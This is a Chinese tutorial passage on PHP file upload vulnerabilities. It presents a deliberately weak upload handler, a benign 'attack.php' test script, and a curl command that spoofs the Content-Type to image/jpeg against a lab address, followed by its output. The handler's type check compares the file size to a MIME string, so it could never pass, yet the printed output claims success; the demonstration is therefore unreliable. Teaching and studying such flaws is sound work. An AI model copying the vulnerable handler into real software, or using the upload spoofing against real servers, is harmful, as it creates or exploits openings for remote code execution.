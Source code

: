 上传文件漏洞也是一种常见的web漏洞，攻击者可以用利用服务器端的上传文件漏洞绕过安全验证将代码提交到服务器端，并想办法让代码文件被执行。一单可执行的代码上传成功，会造成比较严重的安全问题，比如获取服务器权限，为攻击者开后门，或者让服务器超载，破快服务器的可用性，甚至是上传病毒，木马。

​

​ 我们通过一个例子演示利用文件上传漏洞进行攻击的例子，下面的代码负责接受上传文件，并保存在`./uploads/`目录中（在单机应用的场景下，文件和应用程序保存在一起是比较常见的）。

```
<?php
//上传文件路径
$upload_path = "./uploads/";
$upload_file_path = $upload_path . basename($_FILES['uploadedfile']['name']);

$size = $_FILES['uploadedfile']['size'];
$type = $_FILES['uploadedfile']['type'];

//验证文件大小和文件类型
if ($size < 1000000 && ($size == 'image/jpeg' || $size == 'image/png')) {

    print_r($_FILES['uploadedfile']);
    echo "\n";

    if (move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $upload_file_path)) {
        echo "上传成功\n";
    } else {
        echo "上传失败\n";
    }
}
?>
```

上面的代码有基本的校验逻辑，比如文件大小验证，和文件类型验证，看似问题不大，其实不然。我们构造一个 php 脚本，代码如下，通过 curl 命令伪造成图片类型并上传。

PHP 脚本，文件名为 attack.php

```
<?php
echo "attack success !!!";
?>
```

使用 curl 命令上传文件，并将 Content-Type 改成

`image/jpeg`

。



```
$ curl 'http://192.168.56.101/upload.php'  -H 'Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryCHKmsM8kfbHlN8Ff' --data-binary $'------WebKitFormBoundaryCHKmsM8kfbHlN8Ff\r\nContent-Disposition: form-data; name="uploadedfile"; filename="attack.php"\r\nContent-Type: image/jpeg\r\n\r\n\r\n------WebKitFormBoundaryCHKmsM8kfbHlN8Ff--\r\n'

Array
(
    [name] => attack.php
    [type] => image/jpeg
    [tmp_name] => /home/bitnami-nginxstack/php/tmp/phpjWsmp3
    [error] => 0
    [size] => 0
)

上传成功
```



